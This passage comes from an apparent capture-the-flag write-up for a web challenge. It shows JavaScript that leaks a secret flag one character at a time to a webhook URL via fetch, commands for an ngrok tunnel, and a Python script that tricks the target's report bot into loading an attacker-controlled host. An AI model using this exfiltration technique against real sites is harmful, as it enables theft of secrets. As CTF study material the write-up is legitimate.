 ```html
      }
    };

    const main = async () => {
      for (i = 0; i < 5; i++) {
        await leak();
        await sleep(950);
        if (!correct_guess) {
          break;
        }
      }
      if (correct_guess) {
        await fetch("{{webhook_url}}?flag=" + currentflag, {
          mode: "no-cors",
        });
        next(0, currentflag + current_char, current_char, 0);
      } else {
        next(0, currentflag, current_char, idx + 1);
      }
    };

    main();
  </script>
</body>
```
1. Running both python server and ngrok for tunneling
```bash
$ python3 server.py 5000
$ ngrok http 5000
```
2. Registering a new user and reporting python exploit
```python
# x.py
from pwn import *
import requests

s = requests.Session()
s.verify = False

username = 'abcabc123'
password = 'abcabc123'

target_url = 'https://localhost:5000'
if args.REMOTE:
  target_url = "https://34.107.26.201:31841"

flag = args.FLAG if args.FLAG else 'DCTF{'
idx = args.IDX if args.IDX else 0
webhook_url = 'https://webhook.site/933c1987-bee7-4b20-a9d1-284f3fbd0a18'
ngrok_url = "6d7a-2a00-6d43-314-d201-2906-cac5-b873-cfdd.ngrok-free.app"

def report(flag, idx):
  r = s.post(target_url + '/report', data={'movie': f'@{ngrok_url}/leak#{idx}|{flag}'})
  if r.text == 'OK':
    print('Reported')
    return True
  else:
    print(f'[{r.status_code}] Failed to report', r.text)
    return False

def register():
  r = s.post(target_url + '/register', data={'username': username, 'password': password})
  if r.status_code == 200:
    print('Registered')
```
